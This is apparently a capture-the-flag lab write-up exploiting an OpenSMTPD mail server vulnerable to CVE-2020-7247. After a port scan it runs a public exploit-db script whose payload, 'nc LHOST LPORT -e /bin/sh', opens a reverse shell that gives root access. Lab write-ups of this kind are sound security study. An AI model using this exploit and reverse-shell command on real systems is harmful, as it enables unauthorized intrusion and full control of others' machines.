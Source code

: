 # Box: CVE-2020-7247
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.0.100.33 -T4  -v -p-```

```
```
From our nmap scan we can see only 1 open port. Our enumeration today will be focused on that port




# Enumeration

The smtp server is running ```OpenSMPTD```

Searching for available exploits

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e027242-1325-43a7-a98d-2088646ed346)

I found that, you can get the exploit [here](https://www.exploit-db.com/exploits/47984)

Now that we've found the exploit, lets exploit this




# Exploitation

Lets run the exploit

command:```python3 47984.py 10.0.100.33 25 'nc LHOST LPORT -e /bin/sh'```

Ensure you set your ```LHOST``` and ```LPORT```

Also, before running, lets set our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/afb45573-70f3-4251-8b92-0ffca2a0d46d)

Good.

Running the exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e31c08de-4aa8-4855-a2b0-cdcf7bc288a6)

We got a shell as the ```root``` user. This was quite easy

Well, this means we have successfully pwned this box😎



That will be all for today
<br><br>
[Back To Home](../../index.md)


















